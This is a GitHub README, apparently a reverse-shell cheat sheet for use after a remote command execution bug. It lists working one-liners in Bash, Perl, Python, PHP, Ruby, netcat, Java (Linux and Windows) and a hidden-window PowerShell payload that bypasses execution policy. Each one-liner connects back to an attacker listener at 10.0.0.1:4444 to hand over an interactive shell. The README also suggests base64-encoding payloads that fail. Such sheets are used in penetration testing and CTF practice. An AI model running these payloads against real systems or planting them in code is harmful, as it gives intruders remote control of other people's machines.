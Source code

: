 # Getting reverse shell HOWTOs &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/shell1.png" width="30"/>
After having success with a remote command execution vulnerability, you'll probably wish to get an interactive shell. You will see that your target cannot execute any reverse shell scripting languages; it's limited to the current vulnerable application language.  
  
Before starting, you will need netcat installed on your listener host.
  
**Ubuntu/Debian distrib:** *sudo apt-get install nc -y*  
**Other Linux distros (CentOS, RedHat, ...):** *yum install nc -y*  
  
Now that netcat is successfully installed on your listener host, type: *nc -l -v 4444*  
You will find below different ways in obtaining a reverse shell in multiple langs.  
  
## Bash &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/bourne_again.jpg" width="20"/>
Based that your local IP would be *10.0.0.1* and listener port on netcat is *4444*
```
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
```
  
## Perl &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/perl.jpg" width="50"/>
```
perl -e 'use Socket;$i="10.0.0.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
  
## Python &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/python.jpg" width="70"/>
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/php.png" width="40"/>
Assuming that the TCP connection is using file descriptor 3. If it doesn't work, try 4, 5, 6...
  
```
php -r '$sock=fsockopen("10.0.0.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```
  
## Ruby &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/ruby.png" width="20"/>
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
  
## Netcat &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/netcat.gif" width="80"/>
Most of the time in a prod environment, netcat won't be installed. Still, you can give it a try ;)
  
```
nc -e /bin/sh 10.0.0.1 4444
```
Since there is multiple different versions of netcat, the syntax can be different. If the first one above didn't work, try this:
  
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f
```
  
## Java &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/java1.jpg" width="40"/>
Tried it on a Jenkins local server and works like a charm
  
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
  
Windows environment version:
```
String host="10.0.0.1";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
  
## Powershell &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/Powershell.JPG" width="30"/>
  
```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
## Conclusion
Sometimes, getting a reverse shell back on our listener requires more work; if you still don't have success getting a reverse shell, it's possible that the payload sending the command for getting the rev shell needs to be encoded with something like base64 or base64url. If you have any questions on that subject, don't hesitate to pm me.

E-mail: syriusbughunt@protonmail.com
